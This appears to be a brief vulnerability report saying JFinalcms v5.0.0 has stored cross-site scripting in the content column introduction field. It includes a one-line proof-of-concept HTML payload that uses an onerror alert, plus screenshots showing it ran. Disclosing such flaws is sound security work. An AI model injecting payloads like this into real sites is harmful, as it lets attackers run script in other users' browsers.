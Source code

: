 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

Storage xss exists in the content column introduction
![image](https://github.com/user-attachments/assets/152e9af0-5cdd-44ae-9cce-2bcd83d4bd5f)
poc:<img/src=1 onerror=alert(1)>
![image](https://github.com/user-attachments/assets/597ba2db-1389-4d56-9e14-9d2c9dff881e)
successed
![image](https://github.com/user-attachments/assets/7845b921-ddb5-4893-834f-2c7f2288c243)
